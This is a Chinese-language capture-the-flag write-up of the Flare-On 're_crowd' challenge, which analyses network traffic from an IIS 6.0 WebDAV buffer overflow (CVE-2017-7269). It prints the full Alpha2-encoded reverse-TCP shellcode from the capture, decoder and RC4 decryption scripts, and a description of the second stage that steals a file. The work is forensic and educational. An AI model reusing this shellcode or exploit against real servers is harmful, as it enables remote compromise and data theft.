# re_crowd

## Problem
  

## Solution

取得一個pcapng檔，所以開wireshark來分析看看  

有個DNS封包解析  
`it-dept.reynholm-industries.com`: `192.168.68.1`  
  

接著看到好像是連去那個網站的封包們，所以就把他們都dump出來  
File -> Export Objects -> HTTP  
  
  

出現了一個神奇的首頁[index.htm](index.htm)  
  

還有一個WebDav檔  
```xml
<?xml version="1.0"?>
<a:multistatus xmlns:b="urn:uuid:c2f41010-65b3-11d1-a29f-00aa00c14882/" xmlns:c="xml:" xmlns:a="DAV:">
    <a:response>
        <a:href>http://192.168.68.1/</a:href>
        <a:propstat>
            <a:status>HTTP/1.1 200 OK</a:status>
            <a:prop>
                <a:getcontentlength b:dt="int">0</a:getcontentlength>
                <a:creationdate b:dt="dateTime.tz">2020-06-05T14:21:13.801Z</a:creationdate>
                <a:displayname>/</a:displayname>
                <a:getetag>"54af82a5443bd61:3b2"</a:getetag>
                <a:getlastmodified b:dt="dateTime.rfc1123">Fri, 05 Jun 2020 14:21:47 GMT</a:getlastmodified>
                <a:resourcetype><a:collection/></a:resourcetype>
                <a:supportedlock/>
                <a:ishidden b:dt="boolean">0</a:ishidden>
                <a:iscollection b:dt="boolean">1</a:iscollection>
                <a:getcontenttype/>
            </a:prop>
        </a:propstat>
    </a:response>
</a:multistatus>
```

觀察conversations，主要集中在:
* 192.168.68.21/34078 -> 192.168.68.1/80
* 192.168.68.21/34080 -> 192.168.68.1/80
* 192.168.68.21/34082 -> 192.168.68.1/80

  

然後找到WebDav剛開始連接的內容  
  

後面看到其他東西  
  

因為沒碰過WebDav，所以研究了一段時間後，發現它可能跟iis的buffer overflow漏洞(CVE-2017-7269)有關，  
所以`VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JBYlHharm0ipIpS0u9iUMaY0qTtKB0NPRkqBLLBkPRMDbksBlhlOwGMzmVNQkOTlmlQQqllBLlMPGQVoZmjaFgXbIbr2NwRk1BzpDKmzOLtKPLjqqhJCa8za8QPQtKaImPIqgctKMyZxk3MjniRkMddKM16vnQYoVLfaXOjm9quwP8Wp0ul6LCqm9hOKamNDCEGtnxBkOhMTKQVs2FtKLLPKdKNxKlYqZ3tKLDDKYqXPdIq4nDnDokqKS1pY1Jb1yoK0Oo1OQJbkZrHkrmaMbHLsLrYpkPBHRWrSlraO1DS8nlbWmVkW9oHUtxV0M1IpypKyi4Ntb0bHNIu00kypioIENpNpPP201020a0npS8xjLOGogpIoweF7PjkUS8Upw814n5PhLBipjqqLriXfqZlPr6b7ph3iteadqQKOweCUEpd4JlYopN9xbUHl0hzPWEVBR6yofu0j9pQZkTqFR7oxKRyIfhoo9oHUDKp63QZVpKqH0OnrbmlN2JmpoxM0N0ypKP0QRJipphpX6D0Sk5ioGeBmDX9pkQ9pM0r3R6pPBJKP0Vb3B738KRxYFh1OIoHU9qUsNIUv1ehnQKqIomr5Og4IYOgxLPkPM0yp0kS9RLplaUT22V2UBLD4RUqbs5LqMbOC1Np1gPdjkNUpBU9k1q8oypm19pM0NQyK9rmL9wsYersPK2LOjbklmF4JztkWDFjtmObhMDIwyn90SE7xMa7kKN7PYrmLywcZN4IwSVZtMOqxlTLGIrn4ko1zKdn7P0B5IppEmyBUjEaOUsAA`  
是shellcode，但他被Alpha2給encode了(ref: [
Alpha2-encoder](https://github.com/un4ckn0wl3z/Alpha2-encoder/blob/master/alpha2.c))  
研究一下encode程式，發現有`VVYAIAIAIAIAIAIAIAIAIAIAIAIAIAIAjXAQADAZABARALAYAIAQAIAQAIAhAAAZ1AIAIAJ11AIAIABABABQI1AIQIAIQI111AIAJQYAZBABABABABkMAGB9u4JB`代表是mixedcase_unicode_decoders  
所以來寫個shellcode的decode程式  
```python
encode_str = "YlHharm0ipIpS0u9iUMaY0qTtKB0NPRkqBLLBkPRMDbksBlhlOwGMzmVNQkOTlmlQQqllBLlMPGQVoZmjaFgXbIbr2NwRk1BzpDKmzOLtKPLjqqhJCa8za8QPQtKaImPIqgctKMyZxk3MjniRkMddKM16vnQYoVLfaXOjm9quwP8Wp0ul6LCqm9hOKamNDCEGtnxBkOhMTKQVs2FtKLLPKdKNxKlYqZ3tKLDDKYqXPdIq4nDnDokqKS1pY1Jb1yoK0Oo1OQJbkZrHkrmaMbHLsLrYpkPBHRWrSlraO1DS8nlbWmVkW9oHUtxV0M1IpypKyi4Ntb0bHNIu00kypioIENpNpPP201020a0npS8xjLOGogpIoweF7PjkUS8Upw814n5PhLBipjqqLriXfqZlPr6b7ph3iteadqQKOweCUEpd4JlYopN9xbUHl0hzPWEVBR6yofu0j9pQZkTqFR7oxKRyIfhoo9oHUDKp63QZVpKqH0OnrbmlN2JmpoxM0N0ypKP0QRJipphpX6D0Sk5ioGeBmDX9pkQ9pM0r3R6pPBJKP0Vb3B738KRxYFh1OIoHU9qUsNIUv1ehnQKqIomr5Og4IYOgxLPkPM0yp0kS9RLplaUT22V2UBLD4RUqbs5LqMbOC1Np1gPdjkNUpBU9k1q8oypm19pM0NQyK9rmL9wsYersPK2LOjbklmF4JztkWDFjtmObhMDIwyn90SE7xMa7kKN7PYrmLywcZN4IwSVZtMOqxlTLGIrn4ko1zKdn7P0B5IppEmyBUjEaOUsAA"

decode_byte_array = bytearray()
for i in range(0, len(encode_str), 2):
  encode_block = encode_str[i:i+2]
  decode_low_byte = ord(encode_block[1]) & 0x0f
  decode_high_byte = ((ord(encode_block[1]) >> 4) + (ord(encode_block[0]) & 0x0f)) & 0x0f
  decode_byte = (decode_high_byte << 4) + decode_low_byte
  decode_byte_array.append(decode_byte)
  
with open("decode_binary", "wb") as f:
  f.write(decode_byte_array)
```

  


解開後分析很久，發現他是[windows/reverse_tcp_rc4](https://github.com/rapid7/metasploit-framework/blob/0cbfd483ae/lib/msf/core/payload/windows/reverse_tcp_rc4.rb)  

再次分析一次封包內容發現他主要是一直在try overflow的長度，當tcp.stream 49時，成功跳到shellcode，因此分析內容如下:
* tcp.stream 49: attack expoit
* tcp.stream 50: 4 bytes的長度資料 + rc4 ecrypt的程式
* tcp.stream 51: 被偷的資料

在研究完windows/reverse_tcp_rc4的內容後，得知:
1. 建立reverse socket  
2. 取得4 bytes 長度資料  
3. VirtualAlloc 大小為剛剛取得的長度資料  
4. 取得後續內容
5. rc4 decrypt

而rc4的key會放在call decrypt rc4的後方，因此rc4 key:`killervulture123`  
再利用rc4 decrypt程式解開tcp.stream 50的資料內容(PS: 記得把前面4 bytes的長度資料拿掉)，又取得了一個新的程式，這次應該就是偷資料的程式了  

繼續分析後看到程式內容有檔案名稱，因此猜測會去讀取他  
  

接著發現會去用的檔名offset(0x4b9)的地方，猜測function內容為  
CreateFileA("C:\accounts.txt", 0x800000000, 1, 0, 3, 0, 0)  
dwDesiredAccess 0x800000000: "GENERIC_READ"  
dwShareMode 1: FILE_SHARE_READ  
lpSecurityAttributes 0: null  
dwCreationDisposition 3: OPEN_EXISTING  
dwFlagsAndAttributes 0    
hTemplateFile 0: null  
  

同時也發現一堆被hash的funcion  
  
0x6e2bca17: kernel32.dll  
0x7c0017a5: CreateFileA  
0x73e2d87e: ExitProcess  
0x10fa6516: ReadFile  
0x32e1efa6:  
0x3bfcedcb: WSAStartup  
0x60aaf9ec: connect
0xe97019a4: send  
0x4d5f6ac9:  
0x492f0b6e:  

繼續分析了一下，這次改用Ghidra來Decompile  
  
1. 先create file handle  
2. 讀檔  
3. 取得key，0x4c9可以取得`intrepidmango`  
4. call 0xd4，內容為用key來建個encode table  
  
5. encode 檔案  
  
  
6. 建立socket並將encode後的內容回傳  

而被encode的內容為tcp stream 51  
  

因此來寫個decode script  
```python
key = "intrepidmango"

table = list(range(0x100))
idx1 = 0
for idx2 in range(0x100):
    idx1 = (idx1 + ord(key[idx2 % len(key)]) + table[idx2]) & 0xff
    table[idx1], table[idx2] = table[idx2], table[idx1]

x = 0
y = 0

content = ""
with open("stolen_data", "rb") as f:
    content = f.readline()

decode_str = ""
for encode_chr in content:
    temp1 = (x + 1) & 0xff
    temp2 = (y + table[temp1]) & 0xff
    x = temp1
    y = temp2
    table[temp1], table[temp2] = table[temp2], table[temp1]
    value = table[(table[temp1] + table[temp2]) & 0xff]
    decode_str += chr(value ^ encode_chr)

'''
roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
'''
```
就得到flag囉  

  

## Reference

[Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow](https://www.exploit-db.com/exploits/41738)  
[針對IIS6.0 WebDAV漏洞(cve-2017-7269)制作純字符數字的shellcode回連msf](https://www.itdaan.com/tw/7d0b48af72f46f44de52cf6af50446a)  